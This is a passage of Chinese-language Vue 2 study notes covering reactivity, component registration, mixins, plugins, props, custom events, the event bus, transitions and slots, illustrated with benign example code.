    - `Vue.set(target，propertyName/index，value)`
    - `vm.$set(target，propertyName/index，value)`

3、如何监测**数组**中的数据？
- 通过包裹数组更新元素的方法实现，本质就是做了两件事：
  - 1、调用原生对应的方法对数组进行更新。
  - 2、重新解析模板，进而更新页面。

4、在Vue修改**数组**中的某个元素一定要用如下方法：
  - 1、使用这些API:`push()、pop()、shift()、unshift()、splice()、sort()、reverse()`
  - 2、`Vue.set()` 或 `vm.$set()`

> 特别注意：`Vue.set()` 和 `vm.$set()` 不能给`vm` 或 `vm`的根数据对象添加属性

#### 模拟一个数据监测
```js
let data = {
  name:'尚硅谷',
  address:'北京',
}

/* 创建一个监视的实例对象，用于监视data中属性的变化 */
const obs = new Observer(data)		
console.log(obs)	

/* 准备一个vm实例对象 */
let vm = {}
vm._data = data = obs

function Observer(obj){
  /* 汇总对象中所有的属性形成一个数组 */
  const keys = Object.keys(obj)
  /* 遍历 */
  keys.forEach((k)=>{
    Object.defineProperty(this,k,{
      get(){
        return obj[k]
      },
      set(val){
        console.log(`${k}被改了，我要去解析模板，生成虚拟DOM.....我要开始忙了`)
        obj[k] = val
      }
    })
  })
}
```
## Vue组件化开发
### 组件注册(全局/局部)
Vue中使用组件的三大步骤：
- 一、定义组件(创建组件)
- 二、注册组件
- 三、使用组件(写组件标签)

一、**定义一个组件**:  
使用`Vue.extend(options)`创建，其中`options`和`new Vue(options)`时传入的那个`options`几乎一样，但也有点区别:  
- 1、`el`不写，因为最终所有的组件都要经过一个`vm` 的管理，由`vm` 中的`el` 决定服务哪个容器。
- 2、`data`必须写成函数，避免组件被复用时，数据存在引用关系。
  
> 备注：使用`template` 可以配置组件结构。

二、如何注册组件
 - 1、局部注册：靠`new Vue` 的时候传入`components` 选项
 - 2、全局注册：靠`Vue.component('组件名',组件)`

```html
<body>
  <!-- 准备好一个容器-->
  <div id="root">
    <hello></hello>
    <hr>
    <h1>{{msg}}</h1>
    <hr>
    <!-- 第三步：编写组件标签 -->
    <school></school>
    <hr>
    <!-- 第三步：编写组件标签 -->
    <student></student>
  </div>

  <div id="root2">
    <hello></hello>
  </div>
</body>

<script type="text/javascript">
  Vue.config.productionTip = false

  //第一步：创建school组件
  const school = Vue.extend({
    template:`
      <div class="demo">
        <h2>学校名称：{{schoolName}}</h2>
        <h2>学校地址：{{address}}</h2>
        <button @click="showName">点我提示学校名</button>	
      </div>
    `,
    // el:'#root', //组件定义时，一定不要写el配置项，因为最终所有的组件都要被一个vm管理，由vm决定服务于哪个容器。
    data(){
      return {
        schoolName:'尚硅谷',
        address:'北京昌平'
      }
    },
    methods: {
      showName(){
        alert(this.schoolName)
      }
    },
  })

  //第一步：创建student组件
  const student = Vue.extend({
    template:`
      <div>
        <h2>学生姓名：{{studentName}}</h2>
        <h2>学生年龄：{{age}}</h2>
      </div>
    `,
    data(){
      return {
        studentName:'张三',
        age:18
      }
    }
  })
  
  //第一步：创建hello组件
  const hello = Vue.extend({
    template:`
      <div>	
        <h2>你好啊！{{name}}</h2>
      </div>
    `,
    data(){
      return {
        name:'Tom'
      }
    }
  })
  
  //第二步：全局注册组件
  Vue.component('hello',hello)

  //创建vm
  new Vue({
    el:'#root',
    data:{
      msg:'你好啊！'
    },
    //第二步：注册组件（局部注册）
    components:{
      school,
      student
    }
  })

  new Vue({
    el:'#root2',
  })
</script>
```
一个**简写方式**：  
`const school = Vue.extend(options)` 可简写为：`const school = options`
```js
//定义组件
const s = {
  name: 'atguigu',
  template: `
      <div>
        <h2>学校名称：{{name}}</h2>	
        <h2>学校地址：{{address}}</h2>	
      </div>
    `,
  data() {
    return {
      name: '尚硅谷',
      address: '北京'
    }
  }
}

new Vue({
  el: '#root',
  data: {
    msg: '欢迎学习Vue!'
  },
  components: {
    school: s
  }
})
```
### VueComponent
关于`VueComponent`：  
- 1、`school`组件本质是一个名为`VueComponent`的**构造函数**，且不是程序员定义的，是`Vue.extend` 生成的。  
- 2、我们只需要写`<school/>`或`<school></school>`，Vue解析时会帮我们创建`school`组件的**实例对象**，即Vue帮我们执行的：`new VueComponent(options)`。
- 3、特别注意：每次调用`Vue.extend`，返回的都是一个全新的`VueComponent`
- 4、关于this指向：
  - 1、组件配置中：data函数、methods中的函数、watch中的函数、computed中的函数 它们的this均是**VueComponent实例对象**。
  - 2、new Vue(options)配置中：data函数、methods中的函数、watch中的函数、computed中的函数 它们的this均是**Vue实例对象**。

> 一个重要的内置关系：`VueComponent.prototype.__proto__ === Vue.prototype`
> 为什么要有这个关系：让组件实例对象（vc）可以访问到 Vue原型上的属性、方法。


```js
Vue.prototype.x = 99

//定义school组件
const school = Vue.extend({
  name:'school',
  template:`
    <div>
      <button @click="showX">点我输出x</button>
    </div>
  `,
  methods: {
    showX(){
      console.log(this.x)
    }
  },
})

//创建一个vm
const vm = new Vue({
  el:'#root',
  data:{
    msg:'你好'
  },
  components:{school}
})
```
### 创建脚手架
```
vue create 文件名
```
#### 启动项目
```
npm run serve
```
#### ref属性
- 1、被用来给**元素或子组件注册引用信息**（id的替代者）
- 2、应用在html标签上**获取的是真实DOM元素，应用在组件标签上是组件实例对象（vc）**
- 3、使用方式：
  - 1、打标识：```<h1 ref="xxx">.....</h1>``` 或 ```<School ref="xxx"></School>```
  - 2、获取：```this.$refs.xxx```

```html
<template>
	<div>
		<h1 v-text="msg" ref="title"></h1>
		<button ref="btn" @click="showDOM">点我输出上方的DOM元素</button>
		<School ref="sch"/>
	</div>
</template>

<script>
	//引入School组件
	import School from './components/School'

	export default {
		name:'App',
		components:{School},
		data() {
			return {
				msg:'欢迎学习Vue！'
			}
		},
		methods: {
			showDOM(){
				console.log(this.$refs.title) //真实DOM元素
				console.log(this.$refs.btn) //真实DOM元素
				console.log(this.$refs.sch) //School组件的实例对象（vc）
			}
		},
	}
</script>
```
#### mixin(混入)
把多个组件共用的配置提取成一个混入对象
##### 局部混入
- 1、先定义混合(`mixin.js`)
- 2、后在组件中引入混合并使用

```js
// 定义混合mixin.js
export const hunhe = {
	methods: {
		showName(){
			alert(this.name)
		}
	},
	mounted() {
		console.log('你好啊！')
	},
}
export const hunhe2 = {
	data() {
		return {
			x:100,
			y:200
		}
	},
}
```
```html
<!-- 组件引入混合并使用 -->
<template>
	<div>
		<h2 @click="showName">学生姓名：{{name}}</h2>
		<h2>学生性别：{{sex}}</h2>
	</div>
</template>

<script>
	import {hunhe,hunhe2} from '../mixin'

	export default {
		name:'Student',
		data() {
			return {
				name:'张三',
				sex:'男'
			}
		},
    /* 引用混合 */
		mixins:[hunhe,hunhe2]
	}
</script>
```
> 如果引入的混合与自身有的数据发送冲突，以自身的数据为准

##### 全局混入
在入口文件引入并使用`Vue.mixin()`，其他组件皆可使用
```js
/* 在入口文件main.js引入后，任一组件皆可使用 */
import {hunhe,hunhe2} from './mixin'

Vue.mixin(hunhe)
Vue.mixin(hunhe2)
```
#### 插件
本质是包含`install()`方法的对象，用于增强Vue。  

使用方式：新建`plugins.js`，插件里面包含`install()` 方法，`install()`的第一个参数是Vue，第二个参数是插件使用者传递的参数，在`main.js` 中引入插件并使用`Vue.use(pligins)`  

定义插件：
```js
对象.install = function (Vue, options) {
    // 1. 添加全局过滤器
    Vue.filter(....)

    // 2. 添加全局指令
    Vue.directive(....)

    // 3. 配置全局混入(合)
    Vue.mixin(....)

    // 4. 添加实例方法
    Vue.prototype.$myMethod = function () {...}
    Vue.prototype.$myProperty = xxxx
}
```
```js
/* plugins.js */
export default {
	install(Vue,x,y,z){
		console.log(x,y,z)
		//全局过滤器
		Vue.filter('mySlice',function(value){
			return value.slice(0,4)
		})

		//定义全局指令
		Vue.directive('fbind',{
			//指令与元素成功绑定时（一上来）
			bind(element,binding){
				element.value = binding.value
			},
			//指令所在元素被插入页面时
			inserted(element,binding){
				element.focus()
			},
			//指令所在的模板被重新解析时
			update(element,binding){
				element.value = binding.value
			}
		})

		//定义混入
		Vue.mixin({
			data() {
				return {
					x:100,
					y:200
				}
			},
		})

		//给Vue原型上添加一个方法（vm和vc就都能用了）
		Vue.prototype.hello = ()=>{alert('你好啊')}
	}
}

/* main.js */
//引入插件
import plugins from './plugins'

//应用（使用）插件
Vue.use(plugins,1,2,3)
```
#### scoped样式
让样式在局部生效，防止冲突
```html
<style scoped>
	.title{
		color: red;
	}
</style>
```
使用`less`:
```js
<style lang="less">
	.title{
		color: red;
	}
</style>
```
> 使用`less` 需要安装`npm i less-loader@7`,建议安装7，因为`vue` 使用`webpack` 是4

### 组件间数据交互
#### 父组件向子组件传值
组件内部通过`props`接收传递过来的值，父组件通过属性将值传递给子组件：
```html
<!-- 父组件 -->
<template>
	<div>
		<Student name="李四" sex="女" :age="18"/>
	</div>
</template>

<!-- 子组件 -->
<template>
	<div>
		<h1>{{msg}}</h1>
		<h2>学生姓名：{{name}}</h2>
		<h2>学生性别：{{sex}}</h2>
		<h2>学生年龄：{{myAge+1}}</h2>
		<button @click="updateAge">尝试修改收到的年龄</button>
	</div>
</template>

<script>
	export default {
		name:'Student',
		data() {
			console.log(this)
			return {
				msg:'我是一个的学生',
        /* props传入的属性权重更高 */
				myAge:this.age
			}
		},
		methods: {
			updateAge(){
				this.myAge++
			}
		},
		// 简单声明接收，避免修改props接受的属性，可使用data()重新赋值进行修改
		// props:['name','age','sex'] 

		//接收的同时对数据进行类型限制，若传入参数有问题则会在控制台输出错误信息
		/* props:{
			name:String,
			age:Number,
			sex:String
		} */

		//接收的同时对数据：进行类型限制+默认值的指定+必要性的限制
		props:{
			name:{
				type:String, //name的类型是字符串
				required:true, //name是必要的
			},
			age:{
				type:Number,
				default:99 //默认值
			},
			sex:{
				type:String,
				required:true
			}
		}
	}
</script>
```
#### 子组件给父组件传递
##### 组件的自定义事件
1、一种组件间通信的方式，适用于：**子组件 ===> 父组件**  
    
2、使用场景：A是父组件，B是子组件，B想给A传数据，那么就要在A中给B绑定自定义事件（**事件的回调在父组件中**）。

3、绑定自定义事件：
- 1、第一种方式，在父组件中：`<Demo @atguigu="test"/>`  或 `<Demo v-on:atguigu="test"/>`
- 2、第二种方式，在父组件中：
```js
<Demo ref="demo"/>
...
mounted(){
   this.$refs.demo.$on('atguigu',this.test)
}
```
- 3、若想让自定义事件只能触发一次，可以使用`once`修饰符，或`$once`方法。

4、触发自定义事件：`this.$emit('atguigu',数据)`		

5、解绑自定义事件`this.$off('atguigu')`、也可以通过`this.$destroy()`销毁了组件的实例，销毁后所有组件实例的自定义事件全都不奏效。  
```js 
this.$off('atguigu') //解绑一个自定义事件
this.$off(['atguigu','demo']) //解绑多个自定义事件
this.$off() //解绑所有的自定义事件
```
6、组件上也可以绑定原生DOM事件，需要使用`native`修饰符。  

7、注意：通过`this.$refs.xxx.$on('atguigu',回调)`绑定自定义事件时，**回调要么配置在methods中，要么用箭头函数**，否则this指向会出问题！  

> 也可以利用`props`回调函数实现子组件给父组件传递参数

#### 任一组件间通信
##### 全局事件总线
1、**安装全局事件总线**：
```js
/* main.js */
new Vue({
...
beforeCreate() {
  Vue.prototype.$bus = this //安装全局事件总线，$bus就是当前应用的vm
},
...
}) 
```
2、**使用事件总线**：  
- 1、接收数据：A组件想接收数据，则在A组件中给`$bus`绑定自定义事件，事件的**回调留在A组件自身**。
```js
methods(){
  demo(data){...}
}
...
mounted() {
  this.$bus.$on('xxxx',this.demo)
}
```
- 2、提供数据：`this.$bus.$emit('xxxx',数据)`

3、最好在`beforeDestroy`钩子中，用`$off`去**解绑当前组件所用到的事件**。
```js
mounted() {
  // console.log('School',this)
  this.$bus.$on('hello',(data)=>{
    console.log('我是School组件，收到了数据',data)
  })
},
beforeDestroy() {
  this.$bus.$off('hello')
},
```
##### 消息订阅与发布
`npm`库：`pubsub-js`
```js
/* 消息订阅,接收数据组件 */
import pubsub from 'pubsub-js'
export default {
  name:'School',
  mounted() {
    /* 为了取消订阅所以声明了this.pubId */
    this.pubId = pubsub.subscribe('hello',(msgName,data)=>{
      console.log(this)
      /* 使用箭头函数 this指向 VueComponent , msgName指向消息订阅名 'hello', data是消息发布传过来的数据 666 */
    })
  },
  /* 销毁消息订阅 */
  beforeDestroy() {
    pubsub.unsubscribe(this.pubId)
  },
}

/* 消息发布,发送数据组件 */
import pubsub from 'pubsub-js'
export default {
  name:'Student',
  methods: {
    sendStudentName(){
      pubsub.publish('hello',666)
    }
  },
}
```
#### nextTick
`this.$nextTick(回调函数)`, 在下一次 `DOM` 更新结束后执行其指定的回调。  

当改变数据后，要基于更新后的新`DOM` 进行某些操作时，要在`nextTick`所指定的回调函数中执行。
### Vue封装的过度与动画
在插入、更新或移除 DOM元素时，在合适的时候给元素添加样式类名。  

图示：

写法：
- 1、准备好样式：
 - 元素进入的样式：
   1、`v-enter`：进入的起点
   2、`v-enter-active`：进入过程中
   3、`v-enter-to`：进入的终点
 - 元素离开的样式：
   1、`v-leave`：离开的起点
   2、`v-leave-active`：离开过程中
   3、`v-leave-to`：离开的终点
- 2、使用`<transition>`包裹要过度的元素，并配置name属性：
```html
<transition name="hello">
  <h1 v-show="isShow">你好啊！</h1>
</transition>
```
- 3、备注：若有多个元素需要过度，则需要使用：`<transition-group>`，且每个元素都要指定`key`值。

- 4、可查看[过度&动画](https://cn.vuejs.org/v2/guide/transitions.html)  
- 5、第三方库[animate.css](https://animate.style/)  

```html
<!-- 使用css样式封装动画 -->
<template>
	<div>
		<button @click="isShow = !isShow">显示/隐藏</button>
    <!-- appear attribute 设置节点在初始渲染的过渡 -->
		<transition name="hello" appear>
			<h1 v-show="isShow">你好啊！</h1>
		</transition>
	</div>
</template>

<script>
	export default {
		name:'Test',
		data() {
			return {
				isShow:true
			}
		},
	}
</script>

<style scoped>
	h1{
		background-color: orange;
	}

	.hello-enter-active{
		animation: atguigu 0.5s linear;
	}

	.hello-leave-active{
		animation: atguigu 0.5s linear reverse;
	}

	@keyframes atguigu {
		from{
			transform: translateX(-100%);
		}
		to{
			transform: translateX(0px);
		}
	}
</style>
```
```html
<!-- 使用Vue封装的动画 -->
<template>
	<div>
		<button @click="isShow = !isShow">显示/隐藏</button>
		<transition-group name="hello" appear>
			<h1 v-show="!isShow" key="1">你好啊！</h1>
			<h1 v-show="isShow" key="2">PengPengQ</h1>
		</transition-group>
	</div>
</template>

<script>
	export default {
		name:'Test',
		data() {
			return {
				isShow:true
			}
		},
	}
</script>

<style scoped>
	h1{
		background-color: orange;
	}
	/* 进入的起点、离开的终点 */
	.hello-enter,.hello-leave-to{
		transform: translateX(-100%);
	}
	.hello-enter-active,.hello-leave-active{
		transition: 0.5s linear;
	}
	/* 进入的终点、离开的起点 */
	.hello-enter-to,.hello-leave{
		transform: translateX(0);
	}
</style>
```
```html
<!-- 使用第三方动画库 -->
<template>
	<div>
		<button @click="isShow = !isShow">显示/隐藏</button>
		<transition-group 
			appear
			name="animate__animated animate__bounce" 
			enter-active-class="animate__swing"
			leave-active-class="animate__backOutUp"
		>
			<h1 v-show="!isShow" key="1">你好啊！</h1>
			<h1 v-show="isShow" key="2">尚硅谷！</h1>
		</transition-group>
	</div>
</template>

<script>
	import 'animate.css'
	export default {
		name:'Test',
		data() {
			return {
				isShow:true
			}
		},
	}
</script>

<style scoped>
	h1{
		background-color: orange;
	}
</style>
```
### 组件插槽
父组件向子组件传递内容：  
1、插槽位置：  
```js
Vue.component('alert-box', { 
  template: `
    <div class="demo-alert-box"> 
    <strong>Error!</strong> 
    <slot></slot>
    </div> 
    `
})
```
2、插槽内容：
```html
<alert-box>Something bad happened.</alert-box>
```
```html
<div id="app">
  <alert-box>有bug发生</alert-box>   <!-- ERROR:有bug发生 -->
  <alert-box>有一个警告</alert-box>   <!-- ERROR:有bug发生 -->
  <alert-box></alert-box>           <!-- ERROR:默认内容 -->
</div>
<script type="text/javascript" src="js/vue.js"></script>
<script type="text/javascript">
  /*
    组件插槽：父组件向子组件传递内容
  */
  Vue.component('alert-box', {
    template: `
      <div>
        <strong>ERROR:</strong>
        <slot>默认内容</slot>
      </div>
    `
  });
```
#### 具名插槽
插槽的定义：
```html
<div class="container">
  <header>
    <slot name="header"></slot> 
  </header>
  <main>
    <slot></slot> 
  </main>
  <footer>
    <slot name="footer"></slot>
  </footer>
</div>
```
插槽内容：
```html
<base-layout>
  <h1 slot="header">标题内容</h1>
  <p>主要内容1</p> 
  <p>主要内容2</p>
  <p slot="footer">底部内容</p> 
</base-layout>
```
```html
<div id="app">
  <base-layout>
    <!-- header区域 -->
    <p slot='header'>标题信息</p>
    <!-- main区域 -->
    <p>主要内容1</p>
    <p>主要内容2</p>
    <!-- footer区域 -->
    <p slot='footer'>底部信息信息</p>
  </base-layout>

  <base-layout>
    <!-- header区域 -->
    <template slot='header'>
      <p>标题信息1</p>
      <p>标题信息2</p>
    </template>
    <!-- main区域 -->
    <p>主要内容1</p>
    <p>主要内容2</p>
    <!-- footer区域 -->
    <template slot='footer'>
      <p>底部信息信息1</p>
      <p>底部信息信息2</p>
    </template>
  </base-layout>
</div>
<script type="text/javascript">
  /*
    具名插槽
  */
  Vue.component('base-layout', {
    template: `
      <div>
        <header>
          <slot name='header'></slot>
        </header>
        <main>
          <slot></slot>
        </main>
        <footer>
          <slot name='footer'></slot>
        </footer>
      </div>
    `
  });
```
#### 作用域插槽
父组件对子组件的内容进行加工处理  

插槽定义：
```html
<ul>
  <li v-for= "item in list" v-bind:key= "item.id" >
    <!-- 提供一个属性，名字可自定义，值为操作的数据 -->
    <slot v-bind:item="item"> 
      {{item.name}}
     </slot>
  </li>
</ul>
```
插槽内容：
```html
<fruit-list v-bind:list= "list"> 
  <!-- slot-scope得到子组件传过来的数据 -->
  <template slot-scope="slotProps">
    <!-- item是在上面 v-bind绑定的名字 -->
    <strong v-if="slotProps.item.current"> 
      {{ slotProps.item.text }}
    </strong> 
  </template> 
</fruit-list>
```
```html
<div id="app">
  <fruit-list :list='list'>
    <template slot-scope='slotProps'>
      <strong v-if='slotProps.info.id==3' class="current">{{slotProps.info.name}}</strong>
      <span v-else>{{slotProps.info.name}}</span>
    </template>
  </fruit-list>
</div>
<script type="text/javascript">
  Vue.component('fruit-list', {
    props: ['list'],
    template: `
      <div>
        <li :key='item.id' v-for='item in list'>
          <slot :info='item'>{{item.name}}</slot>
        </li>
      </div>
    `
  });
  var vm = new Vue({
    el: '#app',
    data: {
      list: [{
        id: 1,
        name: 'apple'
      },{
        id: 2,
        name: 'orange'
      },{
        id: 3,
        name: 'banana'
      }]
    }
  });
</script>
```

